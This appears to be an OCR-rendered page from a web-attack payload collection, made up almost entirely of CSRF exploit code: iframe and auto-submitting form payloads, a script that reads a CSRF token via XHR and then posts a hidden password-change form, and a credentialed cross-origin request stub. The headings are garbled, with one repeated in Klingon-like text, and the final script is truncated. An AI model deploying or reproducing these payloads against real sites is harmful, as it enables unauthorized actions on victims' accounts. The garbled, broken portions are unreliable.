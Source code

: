 ```html

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POSTSteal CSRF token with Ajax and send a post with a form**

#### **Ajax-va CSRF token yIqaw'qu' je 'ej post yIlo'**

##### **Ajax-va CSRF token yIqaw'qu' je 'ej post yIlo'**

###### **Ajax-va CSRF token yIqaw'qu' je 'ej post yIlo'**

`<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', '/api/get_csrf_token', true);
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var csrfToken = xhr.responseText;
            var form = document.createElement('form');
            form.method = 'POST';
            form.action = '/api/change_password';
            var input = document.createElement('input');
            input.type = 'hidden';
            input.name = 'csrf_token';
            input.value = csrfToken;
            form.appendChild(input);
            document.body.appendChild(form);
            form.submit();
        }
    };
    xhr.send();
</script>`
```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
```